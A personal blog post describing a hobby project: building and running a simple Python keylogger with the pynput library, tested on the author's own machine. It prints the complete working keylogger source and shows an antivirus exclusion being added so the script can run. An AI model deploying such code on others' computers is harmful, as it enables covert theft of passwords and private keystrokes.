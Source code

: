 ```yaml
---
title: "Making a Keylogger"
date: 2022-04-14
categories: Projects
---
```


The *keylogger*. The big, bad, sinister program responsible for stealing all your login credentials and, subsequently, your information. Many criminals or those with criminal intent will sometimes call upon the use of a program such as this in a bid to gain access to a network or computer system. For the uninitied, the task of creating and deploying a keylogger may seem like a complicated task but, in reality, it's actually quite simple to get one up and running.

Before we begin, I must give credit to **CyberFault** who made the [YouTube video](https://www.youtube.com/watch?v=QuH_9OGrVt4) from which I discovered this idea for a project from and **Himanshu Tyagi**, who authored [the initial post referenced in CyberFault's video](https://www.codeitbro.com/how-to-create-keylogger-in-python/).

***

Now, I'll be honest: at the time of writing this post, I don't really know anything about making a keylogger, much less creating one in Python (even though I am a little bit familiar with the coding language). But, one doesn't need programming knowledge or skills in order to make something. A little technical and computer know-how goes a long way.

Since Tyagi's post already covers how to setup one's computer with Python libraries, I won't go into that. However, here's the code that I'll be using:

```
{
import pynput
from pynput.keyboard import Key, Listener
import logging

log_dir = r"C:/Users/<username>"
logging.basicConfig(filename = (log_dir + "keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
   logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
}
```

Right off the bat, there are two fields of interest that would change how and where the output file from this script is saved to:

* `log_dir = r"C:/Users/<username>"`
* `(log_dir + "keyLog.txt")`

The first piece of code tells the script where to save to while the second tells it what filename and extension to use. Both of these can be changed to whatever but, since I just want to try out the code, I'll modify the directory to match my machine's and allow the file to be written as `keyLog.txt`. Whether in a text editor or an IDE, the next thing is to save this script. I'll give it the inconspicious name of `Keylogger.py`.

![Uh oh](/blastermans-base/assets/images/projects/keylogger/windefendercatch.png)

Let's see what this is:

![WindefenderDesc](/blastermans-base/assets/images/projects/keylogger/windefenderdesc.png)

😂

Seems like Windows Defender thinks the file is malicious so I'll need to make an exception for it.

***

With that saved (and excluded from the antivirus), it's time to run the program. This can be done by simply navigating to the script's directory and executing it through Python:

`py.exe .\Keylogger.py`

Now the file running in the terminal. Since it's capturing my keystrokes, the only thing remaining is to type!

***

After a while of typing, let's see what happened:

![Logfile found](/blastermans-base/assets/images/projects/keylogger/logfiledirectory.png)

Neato. The output log was saved the specified directory. What's inside?

![Tada](/blastermans-base/assets/images/projects/keylogger/keylog.png)

And there we have it. All of my keystrokes were recorded and saved to this text file. From it, I can see what character or command was pressed was captured and the time it was sent. Pretty cool stuff. 😎

***

Admittedly, while I was able to successfully create, run, and view the results of this Python keylogger, it relies on Python libraries that must be already by installed on the target computer. However, it was fun making this script to test and see in action a program that actively records every keystroke sent by the user. 

In the future, I work on making a keylogger that doesn't rely on extra libraries or binaries but instead utilizes programming that comes bundled with the target OS. That would be a more independent program than this one and, thus, more awesome. With that, it's onto the next project...


Thanks for reading!